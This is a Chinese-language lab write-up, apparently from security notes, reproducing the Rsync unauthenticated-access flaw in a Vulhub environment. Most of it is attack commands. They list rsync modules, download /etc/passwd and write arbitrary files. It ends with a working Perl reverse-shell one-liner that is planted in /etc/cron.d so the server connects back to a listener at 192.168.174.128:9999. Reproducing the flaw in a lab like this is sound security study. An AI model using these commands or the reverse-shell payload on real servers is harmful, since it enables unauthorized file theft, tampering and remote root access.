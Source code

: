 # Rsync 未授权访问漏洞

## 漏洞描述

Rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件。

## 环境搭建

Vulhub编译及运行Rsync服务器：

```
docker-compose build
docker-compose up -d
```

环境启动后，可以使用Rsync命令访问：

```
rsync rsync://your-ip:873/
```

![image-20220303133847165](./images/202203031338267.png)

> 若Vulhub环境启动时报错`standard_init_linux.go:211: exec user process caused "no such file or directory"`，执行命令 `dos2unix docker-entrypoint.sh`，即可成功启动。

## 漏洞复现

访问建立后，可以查看模块名列表，有一个src模块，我们再列出这个模块下的文件：

```
rsync rsync://your-ip:873/src/
```

这是一个Linux根目录，我们可以下载任意文件：

```
rsync -av rsync://your-ip:873/src/etc/passwd ./
```

或者写入任意文件：

```
rsync -av shell rsync://your-ip:873/src/etc/cron.d/shell
```

### 反弹shell

写入cron任务反弹shell。

shell文件内容如下：

```
# 此处指定用户root不可省略
* * * * * root perl -e 'use Socket;$i="192.168.174.128";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

上传shell文件触发反弹shell：

```
rsync -av shell rsync://192.168.174.128:873/src/etc/cron.d/shell
```

![image-20220303140727513](./images/202203031407618.png)



